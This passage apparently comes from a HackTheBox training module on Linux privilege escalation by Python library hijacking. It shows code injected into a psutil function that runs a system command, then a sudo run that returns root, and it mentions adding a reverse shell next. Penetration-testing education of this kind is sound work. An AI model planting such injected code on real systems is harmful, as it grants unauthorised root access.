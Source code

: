 It is recommended to put our code right in the beginning of the function. We can import the module `os` for testing purposes, which allows us to execute system commands.

### Module Contents - Hijacking
```python
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

Now we can run the script with `sudo` and check if we get the desired result.

### Privilege Escalation
```shell-session
htb-student@lpenix:~$ sudo /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 79.22%
```

Now that we have the desired result, we can edit the library again, but this time, insert a reverse shell that connects to our host as `root`.

## Library Path

In Python, each version has a specified order in which libraries (modules) are searched and imported from. This is based on a priority system, meaning that paths higher in the list take priority.

### PYTHONPATH Listing
```shell-session
htb-student@lpenix:~$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```
